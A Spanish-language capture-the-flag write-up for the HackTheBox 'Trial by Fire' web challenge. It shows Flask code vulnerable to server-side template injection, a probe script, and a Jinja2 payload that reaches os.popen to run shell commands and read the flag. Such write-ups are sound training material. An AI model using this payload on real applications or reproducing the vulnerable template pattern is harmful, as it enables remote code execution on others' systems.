 ```yaml
---
title: 'Cyber Apocalypse CTF 2025: Trial by Fire'
titleIcon: '/htb-logo.png'
tags: [ 'SSTI', 'RCE', 'Very Easy' ]
categories: [ 'CTF', 'HTB', 'Web' ]
description: |
  Trial by Fire es un reto web de nivel muy fácil. Aprovecharemos una vulnerabilidad de Server-Side Template Injection para obtener ejecución remota de comandos (RCE).
---
```


<font size='5'>Trial by Fire</font>

Creador del desafío: makelaris

Dificultad: <font color='green'>Muy fácil</font>

# Descripción

A medida que asciendes por las traicioneras laderas de los Picos de las Llamas, el calor abrasador y el cambiante terreno volcánico ponen a prueba tu resistencia a cada paso. Los ríos de lava fundida trazan ardientes caminos a través de las montañas, iluminando la noche con un espeluznante resplandor carmesí. El aire está cargado de ceniza y el lejano retumbar de la tierra advierte del peligro que se avecina. En el corazón de este paisaje infernal, aguarda un colosal Draco de Fuego, un guardián de las llamas y la furia, decidido a juzgar a quienes se atrevan a traspasarlo. Con ojos como ascuas y escamas endurecidas por siglos de calor, el Draco de Fuego no ataca a ciegas. En su lugar, teje ilusiones de miedo, manifestando tus dudas más profundas y tus fracasos pasados. Para alcanzar la Piedra de Ascuas, el legendario artefacto oculto más allá de su guarida, deberás demostrar tu resistencia, desafiando tanto los abrasadores ataques del draco como las pruebas mentales que conjura. Mantente firme, burla sus artimañas y ataca con precisión: sólo aquellos que posean un valor inquebrantable y un dominio estratégico podrán superar la Prueba de Fuego y reclamar su lugar entre las leyendas de Eldoria.

# Sinopsis

Trial by Fire es un reto web de nivel muy fácil. Aprovecharemos una vulnerabilidad de SSTI para obtener ejecución remota de comandos (RCE).

## Habilidades requeridas

- Conocimientos de Python
- Conocimientos de Jinja2

## Habilidades aprendidas

- Server-Side Template Injection

# Solución

Cuando visitamos el sitio, encontramos un formulario en dónde nos indica que debemos ingresar el nombre del «guerrero».

![](/htb/cyber-apocalypse/trial-by-fire/index.png)

Una vez ingresado el nombre inicia un juego por turnos. Podemos realizar ataques y el dragón responde. 

![](/htb/cyber-apocalypse/trial-by-fire/game.png)

Cuando termina el juego, se muestra una página de estadísticas.

![](/htb/cyber-apocalypse/trial-by-fire/estadisticas.png)

Mirando el código fuente, descubrimos que el `battle-report` está pasando la entrada del usuario a la función `render_template_string()`, lo que es un claro indicador de que la aplicación es vulnerable a SSTI.

```python
@web.route('/battle-report', methods=['POST'])
def battle_report():
    stats = {
        . . .
        'damage_dealt': request.form.get('damage_dealt', "0"),
        'turns_survived': request.form.get('turns_survived', "0")
        . . .
    }

    REPORT_TEMPLATE = f"""
        . . .
        <p class="title">Battle Statistics</p>
        <p>🗡️ Damage Dealt: <span class="nes-text is-success">{stats['damage_dealt']}</span></p>
        . . .
        <p>⏱️ Turns Survived: <span class="nes-text is-primary">{stats['turns_survived']}</span></p>
        . . .
    """

    return render_template_string(REPORT_TEMPLATE)
```

Podemos confirmar el SSTI ejecutando un payload como `{{ 7 * 7 }}`.

```python
import requests

BASE_URL = "http://127.0.0.1:1337"

payload = "{{ 7 * 7 }}"

response = requests.post(f"{BASE_URL}/battle-report", data={
    "damage_dealt": payload
})

print(response.text) # <p>🗡️ Damage Dealt: <span class="nes-text is-success">49</span></p>
```


Ahora usando el payload de abajo podemos obtener la ejecución de comandos del sistema desde SSTI, ¡y obtenemos la bandera!

```python
{{ url_for.__globals__.sys.modules.os.popen('cat flag.txt').read() }}
```